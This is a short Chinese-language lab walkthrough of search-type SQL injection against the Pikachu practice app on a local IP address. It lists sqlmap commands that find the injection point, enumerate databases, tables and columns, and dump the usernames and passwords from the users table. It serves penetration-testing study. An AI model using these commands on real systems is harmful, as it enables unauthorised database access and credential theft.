





# 搜索型注入

　　**也是在url中字符型（get请求），同get在url注入**

　　先随便输入什么

　　这里使用sqlmap来

　　探测注入点：

　　**sqlmap -u "http://192.168.1.132:667/vul/sqli/sqli_search.php?name=1&amp;submit=%E6%90%9C%E7%B4%A2#"**

　　 **（记得url加双引号，不然会有问题）**

　　爆库：

　　**sqlmap -u "http://192.168.1.132:667/vul/sqli/sqli_search.php?name=1&amp;submit=%E6%90%9C%E7%B4%A2#"**   **--dbs**

　　爆表：

　　**sqlmap -u "http://192.168.1.132:667/vul/sqli/sqli_search.php?name=1&amp;submit=%E6%90%9C%E7%B4%A2#" -D "pikachu" --tables**

　　爆字段名：

　　**sqlmap -u "http://192.168.1.132:667/vul/sqli/sqli_search.php?name=1&amp;submit=%E6%90%9C%E7%B4%A2#" -D "pikachu" -T"users" --columns**

　　爆数据：

　　**sqlmap -u "http://192.168.1.132:667/vul/sqli/sqli_search.php?name=1&amp;submit=%E6%90%9C%E7%B4%A2#" -D "pikachu" -T"users" -C"password,username" --dump**

　　‍
